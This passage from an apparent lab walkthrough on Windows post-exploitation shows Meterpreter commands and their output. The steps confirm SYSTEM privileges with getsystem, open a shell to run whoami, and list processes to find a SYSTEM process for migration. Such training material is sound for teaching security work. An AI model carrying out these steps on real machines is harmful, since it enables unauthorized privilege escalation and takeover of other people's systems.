 `No answer needed`

6. Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

```
meterpreter > shell
Process 1580 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

`No answer needed`

7. List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

```
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 544   536   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 592   536   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 604   584   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 644   584   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 692   592   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 700   592   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 708   592   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 724   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 816   692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 884   692   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 932   692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1000  644   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 1020  692   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1056  692   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1104  816   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\wbem\WmiPrvSE.exe
```